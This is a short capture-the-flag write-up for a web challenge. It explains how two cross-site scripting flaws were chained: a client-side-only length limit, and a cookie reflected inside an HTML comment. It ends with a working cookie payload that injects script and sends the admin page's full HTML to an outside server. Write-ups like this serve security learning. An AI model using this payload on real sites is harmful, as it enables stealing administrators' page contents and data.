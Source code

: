 # Artisinal Shoutboxes (cloud, 200pts)

 * We could upload message with an author to a subdomain.
 * Admin viewed each sent message
 * There were 2 xss
 * One was in the author field, it was limited to 10 chars but that was only enforced on user site
 * Second was on `admin.combined.space`, cookie was being printed in a comment
 * Use first xss to setup second xss(using a cookie) and redirect the admin to `admin.combined.space`
 * Set the cookie to `-->` to bypass the comment and then send the whole document to yourself on a different server.
 * Final cookie: `trolled=--><script>window.location='http://nazywam.host/'+document.documentElement.innerHTML</script><!--;domain=.combined.space;path=/` 